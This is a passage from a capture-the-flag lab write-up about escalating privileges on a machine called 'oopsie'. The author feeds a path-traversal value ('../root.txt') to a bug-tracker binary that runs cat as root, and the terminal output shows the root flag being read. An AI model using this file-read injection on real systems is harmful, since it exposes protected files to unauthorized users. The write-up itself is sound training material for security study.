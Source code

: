 Let's focus on `bugtracker` binary-

That tool is asking us for an ID: we type `1000` and we notice that it try to display `/root/reports/1000`.

```
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1000
---------------

cat: /root/reports/1000: No such file or directory

```

We can "inject" that tool to display another file, eg:

```
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf
```


